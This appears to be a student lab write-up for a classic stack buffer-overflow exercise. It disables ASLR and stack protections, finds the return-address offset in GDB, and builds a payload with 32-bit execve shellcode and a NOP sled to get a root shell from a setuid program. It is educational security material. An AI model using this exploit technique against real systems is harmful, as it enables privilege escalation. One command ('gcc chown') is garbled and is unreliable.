

# Buffer Overflow

## Setup

Before starting the tasks themselves, we had to deactivate a couple of security mechanisms Unix uses to prevent buffer overflows.

### Address Space Layout Randomization

> Address Space Layout Randomization (or `ASLR` for short) is a security measure that consists in randomly arranging the positions of a process' key address spaces, such as the base of the executable and the positions of the **stack**, **heap** and libraries.

Since this mechanism difficults guessing exact addresses, which is vital to perform buffer overflows, we disabled it with the following command:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Configuring `/bin/sh`

> In most recent Ubuntu releases, the `/bin/sh/` symbolic link points to the `/bin/dash/` shell. This program, as well as `bash`, has a countermeasure against `Set-UID` programs: if it detects it is being executed in a `Set-UID` program, it immediately switchs the user ID to the process's real user ID, therefore dropping the acquired privilege.

Considering we would be exploiting a `Set-UID` program using `/bin/sh`, we had to link `/bin/sh` to another shell, `zhs`, which does not possess the aforementioned security measure. We did so by running the command below:

```bash
$ sudo ln -sf /bin/zsh /bin/sh
```

#### Note
**StackGuard** and **Non-Executable Stack** are additional countermeasures that will be turned off during compilation.

## Task 1: Understanding Shellcode

> **Shellcode** is a piece of code that launches a **shell**. It is widely used in most code-injection attacks.

To familiarize ourselves with shellcode, we used the `Makefile` provided in the guide to compile a simple C script which invokes shellcode. After running `make`, two binaries were created: "a32.out" (32-bit shellcode) and "a64.out" (64-bit shellcode).

In order to fully analyze these programs, we tested them in two categories: the **directory** the code would be executed from and the **privileges** with which said code would execute. To that end, we used the `pwd` and `whoami` commands, respectively.

For reference, these were the values we obtained before running either of the shellcode programs:


The results of our experiments were as follows:

| Shellcode Version | Results                     |
|-------------------|-----------------------------|
| 32-bit            |  |
| 64-bit            |  |

In conclusion:
* Both programs invoked a shell in the **same directory** as the calling program.
* The shell invoked in both programs had the **same privileges** as the calling program, which means it inherited the user ID.

## Task 2: Understanding the Program

### Analysis

The vulnerable program we are going to exploit is a script called "stack.c" which does the following:

1. Reads at most 517 characters from a file called "badfile" and stores them in a character array called "str".

```c
char str[517];
FILE *badfile;

badfile = fopen("badfile", "r"); // open the file
fread(str, sizeof(char), 517, badfile); // read at most 517 chars from the file
```

2. Calls the function "bof", passing "str" as an argument.
3. "bof" allocates memory for a new character array, "buffer", and copies the contents of "str" to it.

```c
int bof(char *str)
{
    char buffer[BUF_SIZE];

    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);

    return 1;
}
```

The buffer overflow vulnerability is present in the "bof" function for the following reasons:

* The size of "buffer" is dictated by "BUF_SIZE", which, being a user-defined constant, can be less than the size of "str".
* `strcpy`, which is used to copy the content of "str" to "buffer", does NOT perform bounds checking. As such, it does not verify if "buffer" has enough space to receive all the characters from "str".

In conclusion, by properly assembling a payload and writing it in "badfile", we could force the program to run any code we desired.

### Setting Up the Executable

Since our objective is to lauch a root shell using the program, we need to first prepare the executable. 

The first step is compiling it. In order for our attack to work, we have to use `-fno-stack-protector` and `-z execstack` to deactivate the **StackGuard** and the non-executable stack protections, respectively.

The compilation command would be as follows:

```bash
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
```

Next, we have to turn the executable into a root-owned `Set-UID` program. To that end, the commands below must be run:

```bash
$ gcc chown root stack # change the owner to 'root'
$ sudo chmod 4755 stack # make it a Set-UID program
```

**Note:** The order of the last two commands could not be inverted, because changing the owner of a program caused the `Set-UID` bit to be turned off.

## Task 3: Launching Attack (Level 1)

### Understanding the Stack

> To exploit the buffer overflow, it is necessary to discover the distance between the vulnerable buffer's **base** and the position where the **return-address** is stored.

In order to calculate that distance, we first had to remember the layout of the **stack**.

The image below, taken from a [lecture](https://www.udemy.com/course/du-computer-security/?referralCode=A22952E661213A336573&couponCode=SEED2023A1016) referenced in the SEED Labs website, represents how the stack was structured in our program:


**Note:** Some values are different, such as the function being called "foo" instead of "bof", but nevertheless the picture accurately represents what we dealt with.

Upon observing the stack, we realized we needed the following values:

* **Frame pointer** of the "bof" function, which is stored in the `ebp` register.
* The starting position (i.e. the **base**) of the "buffer" variable, which is the vulnerable buffer in our program.

### Investigating the Program

Since we have the source code of the vulnerable program, the easiest way to obtain the information we required was to debug it. To do that, we had to compile it using the `-g` flag, which adds debugging information to the resulting binary.

The guide already had a Makefile which created the executable as well as its debugging counterpart, so we ran it.


After confirming the compilation was successful, we had to create the "badfile", because our program would throw an error if the file did not exist, thus abruptly ending the debugging session. To do that, we used the `touch` command like so:

```bash
$ touch badfile
```

Next, we started debugging the program using `GDB` by following the steps below:

1. Set a breakpoint at the "bof" function.


2. Start running the program.


We had to use absolute paths so as to emulate the environment of the real program.

3. Use `next` in order to update the value of the `ebp`.



This is required because, when the debugger stops inside "bof", the value of `ebp` points to the caller's stack frame. As such, it is necessary to execute a few more instructions until the `ebp` value actually points to the stack frame of "bof", hence why `next` was used.

4. Get the value of the `ebp` (i.e. the frame pointer of "bof"). 


5. Get the address of "buffer".


With that, we had all the values that we needed.

### Understanding How to Write the Payload

The guide provided a Python script that prepared the payload and output it to "badfile". Its behaviour can be summarized like this:

1. Writes and encodes the shellcode.

```python
shellcode= (
"" # ✩ Need to change ✩
).encode(’latin-1’)
```

2. Creates a byte array which represents the payload and fill it with `NOP`'s.

```python
content = bytearray(0x90 for i in range(517))
```

**Note:** `NOP` is an instruction that does nothing. Despite that, filling the payload with `NOP`'s is extremely important, because it will guarantee that, given we incorrectly guess an address, the program will keep executing until it finds it, thereby increasing our chances of executing the shellcode.

3. Inserts the shellcode in the payload.

```python
start = 0 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
```

4. Decides what the return-address will be and places it in the payload.

```python
ret = 0x00 # ✩ Need to change ✩
offset = 0 # ✩ Need to change ✩

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
```

5. Outputs the payload to "badfile".

```python
with open(’badfile’, ’wb’) as f:
    f.write(content)
```

### Writing the Payload

Before running the script, we had to make the modifications listed below:

* Replace "shellcode" with the 32-bit shellcode we studied in the [first task](#task-1-understanding-shellcode).

```python
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

```
* Create two new variables, "ebp" and "buffer", whose values were the addresses we obtained [before](#investigating-the-program).

```python
ebp = 0xffffca68
buffer = 0xffffc9fc
```

* Place the shellcode at the end of "content".

```python
start = len(content) - len(shellcode)
content[start:] = shellcode
```

**Note:** The "start" variable can be interpreted as the relative address of the <u>shellcode</u>, because it specifies the starting position of the shellcode relative to the base of "buffer", which will be the address of our payload.

* Change the "ret" variable, which contains the return-address, so that it points to the shellcode.

```python
ret = buffer + start
```

* Change the "offset" variable so that the return-address of "bof" can be overwritten.

```python
offset = ebp - buffer + 4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
```

**Note:** Just like "start", "offset" is also a relative address, because it points to the starting position of the <u>return-address</u> relative to the base of "buffer".

After running the modified script, our payload was written into "badfile":


### Attack!

We were finally ready to launch our attack. If all went well, we would be able to spawn a shell with privileged access, so running the command `whoami` in it should yield 'root' as an answer.

We decided to test that hypothesis:


We were correct, which means the attack was successful!

